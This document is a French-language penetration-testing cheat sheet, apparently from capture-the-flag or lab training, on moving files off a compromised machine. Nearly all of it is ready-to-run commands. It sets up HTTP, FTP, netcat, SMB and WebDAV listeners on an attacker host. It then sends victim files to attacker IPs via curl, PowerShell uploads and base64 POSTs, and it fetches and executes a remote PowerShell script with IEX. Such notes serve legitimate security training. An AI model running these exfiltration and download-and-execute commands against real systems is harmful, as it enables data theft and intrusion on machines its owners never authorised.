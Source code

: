 ```yaml
---
public: true # set to true to make the article publishable
---
```

## Listener HTTP

```title=configuration du serveur 
pip3 install uploadserver
python3 -m uploadserver

#  Upload depuis linux
curl -X POST http://10.10.14.181/upload --F 'files=@16162020_backup.zip'

```

### PsUpload.ps1

```utilisation depuis powershell
PS> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
PS> Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```

### Base 64

```
 $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

## Listener FTP

```
sudo python3 -m pyftpdlib --port 21 --write
```

### Powershell

```
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

### Client ftp

On pourra également utiliser simplement le client `ftp`

## Listener NC

```
# lancement du listener
nc -lvnp 8000

# décodate de la payload reçue 
echo <base64> | base64 -d -w 0 > fichier
```

### Encodage Base 64 du fichier

```title=Linux
echo <base64> | base64 -d -w 0 > fichier
```

```title=Powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
PS C:\htb> Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

## SMB

### SMB Classique

```
attacker> sudo smbserver.py myshare ./ -smb2support
attacker> sudo smbserver.py myshare ./ -smb2support -user rebrec -password blah
victim> net use x: \\<ATACKER_IP>\myshare /user rebrec blah
```

### WebDav

#### Listener WebDAV

```
# installation
sudo pip install wsgidav cheroot

# utilisation
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
```

#### Connection au partage

```
# Si on veut accéder à la racine utiliser le partage spécial DavWWWRoot
dir \\192.168.49.128\DavWWWRoot 

# Sinon utilisation du nom du partage classique
dir \\192.168.49.128\partage
 copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\partage\


```
